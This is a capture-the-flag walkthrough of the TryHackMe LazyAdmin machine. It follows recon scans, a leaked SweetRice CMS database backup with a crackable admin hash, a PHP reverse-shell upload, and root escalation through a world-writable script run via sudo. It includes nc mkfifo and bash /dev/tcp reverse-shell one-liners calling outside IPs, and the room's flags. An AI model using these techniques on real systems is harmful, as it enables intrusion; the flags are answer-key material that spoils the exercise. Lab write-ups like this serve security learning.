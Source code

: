 # LazyAdmin

Along these notes, there would be multiple address although they are the same machines (i was just noto giving attention to the expiring counter).

# Solution

Starting with nmap scans as usual. I'm changing my approach to start with a simpler scan and grow from there

```bash
cmd: sudo nmap 10.10.75.207

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

cmd: sudo nmap -sC -sV -oN nmap/s2 -p 22,80 10.10.75.207
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Nmap states that the webserver only displays the apache default page so i'll let an all ports scan in the background while i do a gobuster <br>

```
cmd: gobuster dir -u http://10.10.75.207 -o fuzz/dir-medium.log -x php,txt,html -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 40

/content              (Status: 301) [Size: 314] [--> http://10.10.75.207/content/]
/index.html           (Status: 200) [Size: 11321] 
```

Checking **/content** we can see the following message
```

Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed (link to doc)
```

I tried **/dashboard** immediately but without success. Checking the page source i came to the **SeetRice** JavaScript script that discloses the version
```js
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
```

Checking online for this version, there are some vulnerabilities but they either do not work or need credentials. <br>

Since i had not much, i did a second level gobuster in th **/content** endpoint and found quite a few results. (Note: this time i used ffuf since i kinda like it more for fuzzing)

```bash
cmd:ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.75.207/co
ntent/FUZZ

.htaccess               [Status: 403, 
.htpasswd               [Status: 403, 
_themes                 [Status: 301, 
as                      [Status: 301, 
attachment              [Status: 301, 
images                  [Status: 301, 
inc                     [Status: 301, 
js                      [Status: 301, 
```

I went and checked each by hand, just trying to find something interesting:
- as: login page
- attachment: empty
- inc: list of inclusions (majority is .php files, which we cannot downlaod)

Checking the **/content/inc** endpoint, we can see some interesting stuff (present in the **./files** directory):
- **latest.txt** - 1.5.1 (the real version, that's why some exploits did not work)
- **mysql_backup/mysql_bakup_20191129023059-1.5.1.sql** - well well well, something interesting :D
- **cache/cache.db** - might be interesting too


First lets check the mysql file.  <br>

Well, it is just a database creation file. <br>

Searching for insert, we can see a little cool line there
```sql
INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\

-- passwd -> 42f749ade7f9e195bf475f37a44cafcb -> Password123 (john)
```

Well, we have a password now, lets try the login page with admin:Password123. No luck :(  <br>

Well, analyzing the sql statement further, we can see references to **Lazy Admin** and **manager**, lets try them !  Manager:Password123 works !! <br>

Now that we have credentials, we can abuse the previously seen exploits that required them ! I'll use one that allows file uploads by sending a post request to **/as/?type=media_center&mode=upload**. <br>

The exploit seems to execute correctly but the file is not created @ /attachments/... lets poke around in the dashboard <br>
   
Information found
```sql
-- Page: /content/as/?type=setting
Database : mysql
Database Host : localhost
Database Port : 3306
Database Account : rice
Database Password : randompass
Database Name: website
Database Prefix: v

-- Page: /content/as/?type=media_center
-- Allows folder creation and file uploads
```

Now we just need to upload some php backdoor/revshel:
1. Create the file
2. Zip it
3. select the file with the dialog
4. check "Extract zip archive?" option
5. Upload
6. Access /content/attachment/filename (name is a random hash)

```bash
# cmd: whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

First thing to check? MYSQL... nothing there tho <br>

In the www-data home directory (/var/www) there's also nothing interesting... checking home folders it is visible we can read the **itguy** home folder (as well as the user.txt file) <br>

## Flag: THM{63e5bce9271952aad1113b6f1ac28a07}

There are some interesting files at this home folder:
- backup.pl (owned by root)
- mysql_login.txt (with the same creds we got)

It is highly probable that this backup is ran with an automated job/task...
```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Since we dont have write permissions in this user home folder, we need to pivot to him so we can abuse the relative path used by the script ! <br>

Well, we dont actualy need that because we can modify the file it executes in that script (**/etc/copy.sh**)
```bash
cmd: ls -la /etc/copy.sh 
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh

cat: /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It already had a *BSD style reverse shell... lets change it to a simple bash reverse shell <br>

```bash
cmd: echo -n '/bin/bash -c "bash -i >& /dev/tcp/10.9.128.84/1415 0>&1"' > /etc/copy.sh
```

Since it was not executing automatically i did "sudo -l" just in case, and well, this is stupid:
```bash
cmd: sudo -l

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

cmd: sudo /usr/bin/perl /home/itguy/backup.pl
cmd: /dev/shm/waza -p
cmd: whoami && id

root
uid=0(root) gid=0(root) groups=0(root)
```

# Flag: THM{6637f41d0177b6f37cb20d775124699f}